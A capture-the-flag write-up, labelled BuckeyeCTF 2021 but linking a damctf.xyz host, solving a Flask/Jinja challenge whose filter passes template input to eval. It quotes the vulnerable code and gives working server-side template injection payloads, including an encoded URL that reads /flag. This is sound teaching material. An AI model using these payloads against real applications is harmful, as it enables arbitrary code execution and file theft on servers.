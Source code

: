 # BuckeyeCTF 2021 - `web/super-secure-translation-implementation`

## Challenge Description

Get creative and try to bypass the unhackable security measures that keep this site safe.

[super-secure-translation-implementation.chals.damctf.xyz](super-secure-translation-implementation.chals.damctf.xyz)

## Solution Summary

Use arthimetic and the `chr` function to inject banned characters and wrap the payload in parthensis to bypass the filter on the `open` function.

## Challenge Analysis

This challenge is a website that claims to have anti-hack checks that protect it againt server side template injection.
The website publishes its own source files, so we can see exactly how everything works.
The backend of this website is written in Flask.

In `app.py`, we first see various custom Jinja filters configured:

```python
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```

In Jinja templates (the templating syntax that Flask uses) filters can be with the syntax `arg|filter`, where `arg` is the argument and `filter` is the filter.
We will see exactly what these filters do later when we look at `filters.py`.

Later in the code, we find an endpoint at `/secure_translate/` that accepts a `payload` URL parameter.
It will then render our payload in a Jinja template and return it:

```python
resp = render_template_string(
    """{% extends "secure_translate.html" %}{% block content %}<p>"""
    + str(detect_remove_hacks(payload))
    + """</p><a href="/">Take Me Home</a>{% endblock %}"""
)
return Response(response=resp, status=200)
```

Our payload is wrapped with `detect_remove_hacks`.
We can find the implemenation of this function in `check.py` and see that it restricts our payload to only the following characters:

```python
allowlist = ["c", "{", "}", "d", "6", "l", "(", "b", "o", "r", ")", '"', "1", "4", "+", "h", "u", "-", "*", "e", "|", "'"]
```

We also find a `is_within_bounds` check that limits the size of the input.
This challenge was a golf challenge, so this limit became more restrictive as the challenge continued, eventually reaching `161` characters.

Now we revist `filters.py` to see what the custom filters do. Most of these are just map to native Python functions.
One of the more interesting ones is the `ch` filter which will convert a number to its respective unicode character.
The `e` filter is also very interesting as it has its own implementation:

```python
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```

This filter calls `eval` on its input, which effectively interprets the input string as if it were Python code.
However, there are some restrictions imposed on the input of this function.
We canot pass the strings `[" ", "=", ";", "\n", ".globals", "exec"]` in our input, and we cannot start out input with `open` or `eval`.

The flag in this challenge is at `/flag` on the server.

## Solution Walkthrough

Normally, a challenge like this would be fairly easy.
We could just inject `{{request.application.__globals__.__builtins__.open('/flag').read()}}`
However, due to the restrive allowlist, we cannot inject most of these characters.
We can inject the `{{ }}` since `{` and `}` are in the allowlist, but there is not much that we can actually put inside of the expression.

The characters used in the custom filters are all in the allowlist, along with the `|` character, so we can at least use some filters in our payload.
Perhaps we can use these filters to expand the range of characters that we can inject.

I noticed that allowlist also contains the numbers `1`, `4`, and `6` along with the arthimetic operators `+`, `-`, and `*`.
We can combine these to inject any number we want into our payload.
Additionally, we can use the `ch` filter to convert this number to a character string, meaning that we can inject any character into our payload!

For instance, the payload `(64%2b46)|ch` results in the string `'p'` being displayed since the unicode is `64+46=110`.
Note that we used `%2b` in place of `+` since HTTP interprets `+` as a space.
We also had to wrap our arithmetic in parnthesis because the filter operator `|` takes precedence over arthimetic.
Luckily the `(` and `)` charcters are in the list of characters allowed in our payload.

We can concatenate multiple of these characters together to form strings.
For instance `"o"%2b(4*4*(6%2b1))|ch%2b"e"%2b(64%2b46)|ch` outputs the string `open`.
Notice how we did not need to calculate `"o"` or `"e"` using arthimetic since they are already in the allowlist (the quotes are in the allowlist as well).

This method currently only allows us to inject strings into the template; the strings will not be evaluated as code.
However, we could use the defined `e` filter to evaluate our string as code.
Since `eval` will be called within Python rather than Jinja, we do need to proceed our payload with `request.application.__globals__.__builtins__`
(in fact `eval` does not even have access to `request`).
The following code would display the flag:

```python
open('/flag').read()
```

However, the implementation of the `e` filter bans `open` at the beginning of the input string to `eval`.
I had the idea of prepending the input with a space to avoid this, but `e` also bans space characters.
However, we can instead avoid this by simply wrapping the whole input with parentheses:

```python
(open('/flag').read())
```

In our full payload, we can construct this string using our previous method and then pass it into the `e` filter.
I wrote a script to generate this payload, but you could also construct it manually pretty easily.
The arthimetic expressions used to generate each of the ban characters were just hardcoded.
Since the payload must be a certain size, it is important that these arthimetic expressions are as short as possible.
The following arthimetic expressions were used here:

```
n 110 = 46+46+6+6+6     = (46%2b46%2b6%2b6%2b6)|ch
/ 47  = 46+1            = (46%2b1)|ch
a 97  = 46+46+6-1       = (46%2b46%2b6-1)|ch
p 112 = 4*4*(6+1)       = (4*4*(6%2b1))|ch
. 46  = 46              = 46|ch
f 102 = 4*6*4+6         = (4*6*4%2b6)|ch
g 103 = 4*6*4+6+1       = (4*6*4%2b6%2b1)|ch
```

The result is:

```
{{("(o"%2b(4*4*(6%2b1))|ch%2b"e"%2b(64%2b46)|ch%2b"('"%2b(46%2b1)|ch%2b(4*6*4%2b6)|ch%2b"l"%2b(46%2b46%2b6-1)|ch%2b(4*6*4%2b6%2b1)|ch%2b"')"%2b46|ch%2b"re"%2b(46%2b46%2b6-1)|ch%2b"d())")|e}}
```

After the `%2b` percent encoding are converted to `+` characters, the length of this payload is `142`, which is below the required length of `161`!
Sending this payload to the endpoints results in the flag being displayed:

```
https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate?payload={{("(o"%2b(4*4*(6%2b1))|ch%2b"e"%2b(64%2b46)|ch%2b"('"%2b(46%2b1)|ch%2b(4*6*4%2b6)|ch%2b"l"%2b(46%2b46%2b6-1)|ch%2b(4*6*4%2b6%2b1)|ch%2b"')"%2b46|ch%2b"re"%2b(46%2b46%2b6-1)|ch%2b"d())")|e}}
```


